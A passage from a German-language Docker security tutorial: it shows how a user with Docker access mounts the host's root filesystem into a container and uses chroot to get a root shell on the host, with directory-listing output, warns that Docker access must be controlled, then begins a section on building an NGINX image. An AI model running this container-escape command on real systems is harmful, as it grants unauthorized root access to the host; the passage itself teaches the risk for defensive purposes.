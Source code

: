 ### 4.3 Zugriff auf ganzes Dateisystem

Das gesamte Host-Dateisystem wird in den Container gemountet und es wird dann chroot /host eingesetzt: 

```bash
it-security@host35:~$ docker run -it --rm -v /:/host ubuntu:latest chroot /host
# ls -la
total 2097260
drwxr-xr-x  23 root root       4096 Nov 18 18:59 .
drwxr-xr-x  23 root root       4096 Nov 18 18:59 ..
lrwxrwxrwx   1 root root          7 Jun 22  2022 bin -> usr/bin
drwxr-xr-x   2 root root       4096 Nov 18 18:59 bin.usr-is-merged
drwxr-xr-x   4 root root       4096 Apr  8 17:24 boot
drwxrwxr-x   2 root root       4096 Jun 22  2022 cdrom
drwxr-xr-x  21 root root       4980 Apr  8 17:23 dev
drwxr-xr-x 145 root root      12288 Apr  8 17:41 etc
drwxr-xr-x   3 root root       4096 Jun 22  2022 home
lrwxrwxrwx   1 root root          7 Jun 22  2022 lib -> usr/lib
drwxr-xr-x   2 root root       4096 Nov 18 18:59 lib.usr-is-merged
lrwxrwxrwx   1 root root          9 Nov 18 15:35 lib32 -> usr/lib32
lrwxrwxrwx   1 root root          9 Jun 22  2022 lib64 -> usr/lib64
lrwxrwxrwx   1 root root         10 Nov 18 15:35 libx32 -> usr/libx32
drwx------   2 root root      16384 Jun 22  2022 lost+found
drwxr-xr-x   3 root root       4096 Apr 26  2023 media
drwxr-xr-x   2 root root       4096 Jun 22  2022 mnt
drwxr-xr-x   3 root root       4096 Apr  8 17:39 opt
dr-xr-xr-x 360 root root          0 Apr  8 16:21 proc
drwx------   7 root root       4096 Feb 19 20:13 root
drwxr-xr-x  36 root root       1040 Apr  8 17:39 run
lrwxrwxrwx   1 root root          8 Jun 22  2022 sbin -> usr/sbin
drwxr-xr-x   2 root root       4096 Nov 18 18:59 sbin.usr-is-merged
drwxr-xr-x  17 root root       4096 Nov 18 18:59 snap
drwxr-xr-x   2 root root       4096 Jun 22  2022 srv
-rw-------   1 root root 2147483648 Jun 22  2022 swapfile
dr-xr-xr-x  13 root root          0 Apr  8 16:21 sys
drwxrwxrwt  20 root root      12288 Apr  8 18:10 tmp
drwxr-xr-x  14 root root       4096 Apr 19  2022 usr
drwxr-xr-x  14 root root       4096 Nov 18 15:52 var
# 
```

Nun ist man im Rootverzeichnis des Hostsystems, mit Root Rechten --> vollständiger Containerausbruch. 
Deshalb sollte Docker Zugriff niemals unkontrolliert vergeben werden. 

## 5 Dockerfile

Nun wird ein eigenes Docker-Image mit einem einfachen Webserver (NGINX) gebaut, der eine statische HTML-Seite bereitstellt.

### 5.1 Vorbereitung 
